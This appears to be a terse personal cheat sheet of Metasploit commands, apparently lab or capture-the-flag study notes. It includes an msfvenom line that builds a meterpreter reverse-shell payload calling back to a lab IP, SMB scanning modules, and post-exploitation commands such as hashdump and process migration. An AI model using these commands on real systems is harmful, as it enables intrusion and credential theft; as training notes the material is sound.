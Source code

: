 msfconsole

show options
use 
set 


cd /usr/share/metasploit-framework/modules

tree -L 1 auxiliary

`smb_version`
`smb_enumshares`

`systemctl start postgresql`

`msfdb init`

`msfconsole`

`db_status`

`workspace`

`db_nmap`

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.4.20.232 LPORT=1234 -f elf > rev_shell.elf

CTRL Z to background a session
sessions -i 1 to select number 1 in the session
sessions


modules:
post/windows/gather/enum/domain


meterpreter:
sysinfo
hashdump
search -f textfile.txt
pid
migrate

use multi/manage/shell_to_meterpreter















































